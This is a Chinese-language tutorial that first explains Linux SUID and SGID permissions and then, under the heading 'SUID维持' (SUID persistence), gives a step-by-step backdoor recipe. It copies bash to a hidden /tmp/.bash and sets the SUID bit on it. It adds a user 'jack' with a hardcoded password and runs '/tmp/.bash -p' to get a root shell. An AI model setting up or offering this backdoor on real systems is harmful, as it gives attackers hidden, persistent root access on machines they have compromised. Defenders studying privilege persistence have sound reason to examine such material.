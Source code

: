 # **SUID**介绍                                          [ ](af://n3)

SUID是一种特殊权限， 设置了suid的程序文件， 在用户执行该程序时， 用户的权限是该程序文件属主的权限， 例如 程序文件的属主是root， 那么执行该程序的用户就将暂时获得root账户的权限。sgid与suid类似， 只是执行程序时 获得的是文件属组的权限。 passwd这个命令程序的权限设置， 它就是设置了suid权限的

![img](https://image.201068.xyz/assets/clip_image001-168396076560850.jpg)

注意以下几点：

1. 只有可以执行的二进制程序文件才能设定SUID权限,非二进制文件设置SUID权限没任何意义.
2. 命令执行者要对该程序文件拥有执行(x)权限.
3. 命令执行者在执行该程序时获得该程序文件属主的身份.
4. SUID权限只在该程序执行过程中有效,也就是说身份改变只在程序执行过程中有效

# **SUID**维持                                          [ ](af://n23)

## 1、找到bash文件

```
whereis bash
```

![img](https://image.201068.xyz/assets/clip_image003.gif)

因为我是centos所以在`/usr/bin/bash`

## 2、复制到普通用户环境能接触的文件夹

```
cp /bin/bash /tmp/.bash
```

![img](https://image.201068.xyz/assets/clip_image004.jpg)

## 3、设置权限

```
chmod 4755 /tmp/.bash 后者 chmod +s /tmp/.bash
```

![img](https://image.201068.xyz/assets/clip_image005-168396076560951.jpg)

## 4、创建一个普通用户jack

```
 useradd -p `openssl passwd  -1 -salt 'salt '  123456` jack  
```

![img](https://image.201068.xyz/assets/clip_image006-168396076560952.jpg)

## 5、使用jack用户登录

![img](https://image.201068.xyz/assets/clip_image007-168396076560953.jpg)

### 6、运行/tmp/.bash

```
/tmp/.bash -p  
```

![img](https://image.201068.xyz/assets/clip_image009-168396076560954.gif)